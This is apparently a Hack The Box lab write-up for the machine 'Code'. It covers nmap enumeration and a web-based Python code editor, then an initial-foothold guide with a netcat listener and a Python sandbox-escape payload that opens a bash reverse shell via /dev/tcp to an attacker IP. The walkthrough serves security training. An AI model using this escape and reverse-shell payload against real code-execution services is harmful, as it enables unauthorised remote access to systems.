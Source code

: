 # 🔓 Hack The Box - Code

> Initial enumeration and setup for the Hack The Box machine named **Code**.

pwned

![pwned](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code20.png?raw=true)

---

## 📅 Start Date

`4/19/2025`

---

## 📡 HTB VPN Connection

Before starting, connect to the HTB VPN:

```bash
sudo openvpn ~/Downloads/HTB.ovpn
```

Verify connectivity to the target machine:

```bash
ping -c 3 <HTB_Code_IP>
```
![VPN Connection](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code1.png?raw=true)

🔍 Nmap Scan

Performed a service and version detection scan with aggressive options:

nmap -sC -sV -A -T4 -Pn -oN code.scan 10.10.11.62

![Nmap Result](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code2.png?raw=true)

🧪 Results Summary

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4

Detailed Notes:

    Port 22 (SSH): OpenSSH 8.2p1 — possibly used for shell access after exploitation.

    Port 5000 (HTTP): Gunicorn Python server hosting a Python Code Editor.

http-title: Python Code Editor
http-server-header: gunicorn/20.0.4

📍 OS Details:

    OS detected: Linux 5.x Kernel

    Network distance: 2 hops

🌐 Web Enumeration on Port 5000

Access the Python Code Editor interface at:

http://code.htb:5000

![WebApp](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code3.png?raw=true)

🛠️ Next Steps:

    Interact with the Python Code Editor. Test for:

        Arbitrary code execution

        Upload/execute payloads

        Sandbox escape (if limited)

## 🏴‍☠️ Initial Foothold - Reverse Shell

### 🎯 Objective:
Gain initial access to the target system by exploiting the Python Code Editor and establishing a reverse shell.

---

### 🧰 Prerequisites:

- ✅ **Python** must be installed on the **target** machine.
- ✅ **Netcat (nc)** must be installed on the **attacker's** machine.
- ✅ Ensure the **target machine can reach the attacker’s IP and port**.

---

### 🪝 Step-by-Step Guide: Gaining a Reverse Shell

#### 📌 Step 1: Set Up a Listener on the Attacker’s Machine

On your Kali/Parrot or attacker machine, open a terminal and start Netcat to listen for the incoming connection:

```bash
nc -lvnp 4444
```

![netcat](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code6.png?raw=true)

Flags explanation:

    -l: Listen for incoming connections

    -v: Verbose output

    -n: Don’t perform DNS resolution

    -p 4444: Use port 4444 for the listener

📌 Step 2: Craft the Reverse Shell Payload

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code5.png?raw=true)
![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code7.png?raw=true)

Use Python’s dynamic class reference to spawn a bash shell back to your machine:

(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])

    🔁 Replace ATTACKER_IP with your actual IP address (e.g., 10.10.14.89 from HTB VPN).

📌 Step 3: Execute the Payload on the Target Machine

Choose any of the following methods based on your access level:
🔹 Method 1: Direct Python Execution

If you already have a shell or console on the target:

python3 -c '(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"])'

🔹 Method 2: Remote Code Execution (RCE) via Python Code Editor

Inject the payload through the web interface:

    Visit: http://code.htb:5000

    Enter the payload in the code execution area.

    Trigger execution.

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code8.png?raw=true)
